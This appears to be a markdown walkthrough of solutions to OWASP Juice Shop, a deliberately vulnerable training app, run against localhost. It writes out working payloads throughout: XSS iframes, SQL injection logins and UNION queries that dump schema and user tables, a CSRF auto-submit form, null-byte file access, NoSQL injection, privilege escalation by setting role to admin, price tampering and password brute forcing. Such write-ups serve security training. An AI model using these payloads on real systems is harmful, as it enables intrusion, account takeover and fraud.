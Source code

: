 # OWASP Juice Shop<br>
## 1 STAR
### Score Board<br>
Firefox > Debugger > Search score > found: /score-board<br><br>
http://localhost:3000/#/score-board<br>

### Bully Chatbot<br>
Menu > Support Chat > Keep spamming coupon <br><br>

### DOM XSS<br>
search bar > <iframe src="javascript:alert(`xss`)"><br><br>

### Bonus Payload<br>
Search bar <br>
```
<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>
```
### Confidential Document<br>
http://localhost:3000/ftp > acquisitions.md<br><br>

### Error Handling<br>
Account Login > put ' in email and password fields<br><br>

### Exposed Metrics<br>
http://localhost:3000/metrics<br><br>

### Outdated Allowlist<br>
gospider -v -s http://127.0.0.1:3000/ -o gospider_output<br>
cd gospider_output
cat 127_0_0_1 | grep code-200<br><br>

### Missing Encoding<br>
change # to %23<br>
http://localhost:3000/assets/public/images/uploads/%F0%9F%98%BC-%23zatschi-%23whoneedsfourlegs-1572600969477.jpg<br><br>

### Zero Stars<br>
http://localhost:3000/#/contact<br>
burp proxy > repeater > rating:0<br><br>

### Repetitive Registration<br>
http://localhost:3000/#/register<br>
burp proxy > repeater > passwordRepeat:""<br><br>

## 2 STAR
### Login Admin<br>
http://localhost:3000/#/login<br>
email:admin' or true--<br>
password:'<br><br>

### Admin Section<br>
http://localhost:3000/#/administration<br><br>

### Five-Star Feedback<br>
http://localhost:3000/#/administration<br>
delete button<br>

### Empty User Registration<br>
http://localhost:3000/#/login<br>
burp proxy > repeater > email:"",password:"",passwordRepeat:""<br><br>

### Empty User Registration<br>
email:mc.safesearch@juice-sh.op<br>
password:Mr. N00dles<br>

### Meta Geo Stalking<br>
http://localhost:3000/#/forgot-password<br>
exiftool favorite-hiking-place.png <br>
36°57’31.38″ N 84°20’53.58″ W <br>
burp suite > repeater<br>
email: john@juice-sh.op<br>
secret:Daniel Boone National Forest<br>

### Weird Crypto
hash analyzer > 4b2e6b2618920cb1713bb801cd05401e<br>
http://localhost:3000/#/contact <br>
Comment: md5 > submit <br>

### Visual Geo Stalking
http://localhost:3000/#/forgot-password<br>
http://localhost:3000/assets/public/images/uploads/IMG_4253.jpg<br>
email: emma@juice-sh.op<br>
secret: ITsec<br>

### View Basket
http://localhost:3000/#/basket<br>
burp suite > repeater<br>
GET /rest/basket/X HTTP/1.1 <br>

### Security Policy
localhost:3000/.well-known/security.txt<br>

### Deprecated Interface 
http://localhost:3000/#/complain <br>
sudo apt install npm<br>
sudo npm -g install js-beautify<br>
js-beautify main.js > main1.js<br>
grep pdf main1.js<br>
```
allowedMimeType: ["application/pdf", "application/xml", "text/xml", "application/zip", "application/x-zip-compressed", "multipart/x-zip"],["ng2FileSelect", "", "id", "file", "type", "file", "accept", ".pdf,.zip", "aria-label", "Input area for uploading a single invoice PDF or XML B2B order file or a ZIP archive containing multiple invoices or orders\x3c!----\x3e", 2, "margin-left", "10px", 3, "uploader"]
rename .xml file extension to .zip or .pdf > uoload and submit
burp suite > repeater > remove .zip to .xml extension
Content-Disposition: form-data; name="file"; filename="legal.xml.zip"
```
### Login Admin
http://localhost:3000/#/login<br>
email:admin@juice-sh.op<br>
burp suite > intruder > positions: password > attack type: sniper<br>
payloads > usr/share/wordlist/fern-wifi/common.txt <br>

## 3 STAR
### Upload type
http://localhost:3000/#/complain <br>
rename .txt file extension to .zip or .pdf > uoload and submit<br>
burp suite > repeater > remove .zip to .txt extension<br>
Content-Disposition: form-data; name="file"; filename="legal.txt.zip"<br>

### Admin Registration
http://localhost:3000/#/register<br>
burp suite > proxy <br>
Post response > role:"customer" <br>
Post request > "role":"admin" <br>

### Bjoern's Favorite Pet 
http://localhost:3000/#/forgot-password<br>
email:bjoern@owasp.org <br>
secret: Zaya<br>

### CAPTCHA Bypass 
http://localhost:3000/#/contact <br>
burp suite > proxy > repeater <br>
send x10 <br>

### CSRF
download firefox 96.0 <br>
http://localhost:3000/profile > login into account <br>
http://htmledit.squarefree.com/ <br>
submit form: <br>
```
<form action="http://localhost:3000/profile" method="POST">
  <input name="username" value="CSRF"/>
  <input type="submit"/>
</form>
<script>document.forms[0].submit();</script>
```

### Database schema
http://localhost:3000/#/search?q=<br>
burp suite > proxy > repeater <br>
GET /rest/products/search?q=apple'))union%20select%20sql,2,3,4,5,6,7,8,9%20from%20sqlite_master-- HTTP/1.1<br>

### Upload size

### Manipulate Basket 
Add to basket<br>
burp suite > proxy > repeater <br>
POST /api/BasketItems/ HTTP/1.1 <br>
```
"ProductId":24,
"BasketId":"1",
"quantity":1,
"BasketId":"3"
```

### Reset Jim's Password 
http://localhost:3000/#/forgot-password<br>
email:jim@juice-sh.op<br>
secret: Samuel<br>

###  Forged Review 
add review for item<br>
burp suite > proxy<br>
"author":"emma@juice-sh.op"<br>

### Login Bender
http://localhost:3000/#/login<br>
email: bender@juice-sh.op'--<br>
password: '<br>

### Login Amy
http://localhost:3000/#/login<br>
burp suite > proxy<br>
"email":"amy@juice-sh.op"<br>
"password":"K1f....................."<br>

### GDPR Data Erasure 
burp suite > proxy > repeater <br>
GET /rest/products/search?q=apple'))union%20select%20deletedAt,email,username,4,5,6,7,8,9%20from%20Users-- HTTP/1.1<br>
http://localhost:3000/#/login<br>
email:chris.pike@juice-sh.op'--<br>
password:'<br>

### Deluxe Fraud
http://localhost:3000/#/deluxe-membership<br>
firefox > inspect elements on Pay button<br>
remove disabled="true",mat-button-disabled<br>
burp suite > proxy > repeater <br> 
"paymentMode":"paid" <br>

### Payback time
Add to basket <br>
burp suite > proxy<br>
POST /api/BasketItems/ HTTP/1.1<br>
"ProductId":41,"BasketId":"1","quantity":-999<br>
check out<br>

### Privacy Policy Inspection 
firefox > highlighted glowing text > inspect <br>
span class="hot"<br>
search .hot<br>
http://localhost we may also instruct you to refuse all reasonably necessary responsibility<br>
http://localhost:3000/we/may/also/instruct/you/to/refuse/all/reasonably/necessary/responsibility<br>

### Product tampering
burp suite > repeater<br>
GET /rest/products/search?q=apple'))union%20select%20id,name,description,price,deluxePrice,image,createdAt,updatedAt,deletedAt%20from%20Products-- HTTP/1.1<br>
PUT /api/products/9 HTTP/1.1<br>
Content-Type: application/json<br>
{"description":"<a href=\"https://owasp.slack.com\""}<br>

## 4 STAR

### Easter Egg
### Nested Easter Egg
### Poison Null Byte 
http://localhost:3000/ftp<br>
GET /ftp/eastere.gg%2500.md HTTP/1.1<br>
/gur/qrif/ner/fb/shaal/gurl/uvq/na/rnfgre/rtt/jvguva/gur/rnfgre/rtt<br>
online Caesar ciper: /the/devs/are/so/funny/they/hid/an/easter/egg/within/the/easter/egg<br>

### Forgoteen Sales Backup
http://localhost:3000/ftp<br>
GET /ftp/coupons_2013.md.bak%2500.md HTTP/1.1<br>

### Misplaced Signature File 
http://localhost:3000/ftp<br>
GET /ftp/suspicious_errors.yml%2500.md HTTP/1.1<br>

### Forgotten Developer Backup
http://localhost:3000/ftp<br>
GET /ftp/package.json.bak%2500.md HTTP/1.1<br>

### Leaked Unsafe Product
burp suite > proxy > repeater<br>
GET /rest/products/search?q=apple'))union%20select%20id,name,description,price,deluxePrice,image,createdAt,updatedAt,deletedAt%20from%20Products-- HTTP/1.1<br>
id":11,"name":"Rippertuer Special Juice","description":"Contains a magical collection of the rarest fruits gathered from all around the world, like Cherymoya Annona cherimola, Jabuticaba Myrciaria cauliflora, Bael Aegle marmelos... and others, at an unbelievable price! <br />This item has been made unavailable because of lack of safety standards. (This product is unsafe! We plan to remove it from the stock!)"<br>
https://pastebin.com/90dUgd7s<br>
http://localhost:3000/#/contact<br>
Comment: Hueteroneel Eurogium Edule<br>

### Vulnerable Library
http://localhost:3000/ftp<br>
GET /ftp/package.json.bak%2500.md HTTP/1.1<br>
http://localhost:3000/#/contact<br>
Comment:marsdb ~0.6,grunt ~1.0,express-jwt 0.1.3,js-yaml 3.10,sequelize ~4,sanitize-html 1.4.2,socket.io ~2.0<br>

### Legacy Typosquatting
http://localhost:3000/#/contact<br>
comment: epilogue-js<br>

### NoSQL Manipulation
write review<br>
burp suite > proxy > repeater<br>
PATCH /rest/products/reviews HTTP/1.1<br>
{ "id": { "$ne": -1 }, "message": "NoSQL Injection!" }<br>








